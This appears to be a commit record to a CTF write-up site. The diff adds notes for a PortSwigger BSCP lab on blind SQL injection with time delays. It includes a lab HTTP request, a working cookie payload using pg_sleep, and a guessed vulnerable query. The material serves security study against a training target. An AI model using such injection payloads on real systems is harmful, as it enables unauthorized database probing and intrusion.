

Before and after one commit to Sirius-A/ctf-writeups, an MkDocs documentation site: the page built from docs/writeups/2023/portswigger-bscp-labs/sql-injections.md, in a window 1280 px wide and 900 px high, scrolled down 2025 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2582 px from its top, so only the background shows below that.

Commit message:
feat(bscp): add solution for time delay sql injection

````diff
--- a/docs/writeups/2023/portswigger-bscp-labs/sql-injections.md
+++ b/docs/writeups/2023/portswigger-bscp-labs/sql-injections.md
@@ -97,3 +97,21 @@ In Intruder:
 - Sort by `payload 1`
 
 ![results-blind-oracle](images/results-blind-oracle.png)
+
+## Blind SQL injection with time delays
+
+```
+# Initial Request
+GET / HTTP/2
+Host: 0a90000004d38cd582d738de00420061.web-security-academy.net
+Cookie: TrackingId=JjlpMTlWKJlheKxz; session=dZKT5XYtz3AaPgvoqAwIeiJnN7HBISHL
+
+# Working example using string concatenation
+Cookie: TrackingId=oheSoImFDflJjeUv'|| pg_sleep(10) --; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
+```
+
+The SQL query on the srv might look like this
+
+``` sql
+SELECT userid FROM tracking where id='${trackingId}'
+```
````
Also changed, not shown: docs/writeups/2023/portswigger-bscp-labs/index.md (added, +6 -0 lines).
